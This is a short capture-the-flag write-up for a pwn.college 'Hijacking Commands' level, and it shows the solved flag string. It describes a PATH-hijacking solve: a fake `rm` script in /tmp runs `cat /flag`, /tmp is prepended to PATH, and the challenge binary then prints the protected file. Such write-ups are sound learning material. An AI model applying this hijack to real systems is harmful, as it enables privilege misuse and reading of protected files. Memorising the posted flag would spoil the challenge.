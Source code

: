 # Hijacking Commands

Stopping `/challenge/run` from deleting the flag file by changing the path to `rm` to get the flag

## My solve
**Flag** `pwn.college{Mw3jVoTuvxAcFXAKacZCNrTHSos.QX3cjM1wCO2gjNzEzW}`
- The `/challenge/run` file checks for the path of `rm` using the `which` command
- We can replace the rm function by changing the path of the function to something we want
- In this case, to read the file, we will make a fake `rm` that runs `cat /flag`
- We will write that fake rm to `/tmp` becuase its writable easily
- `<<'EOF'` is a heredoc which makes it easy to write multiple lines into a file.
- In the fake `rm` command, we call `/run/dojo/bin/cat /flag` so when `/challenge/run` runs rm, the flag is printed instead of being removed

```bash
#!/bin/sh
cat > /tmp/rm <<'EOF'
/run/dojo/bin/cat /flag
EOF
```

```
chmod +x hijack
./hijack
chmod +x /tmp/rm
export PATH="/tmp:$PATH"
/challenge/run
```

## What I learned
By setting the path using "/filepath:$PATH" we make it a higher priority path which is used first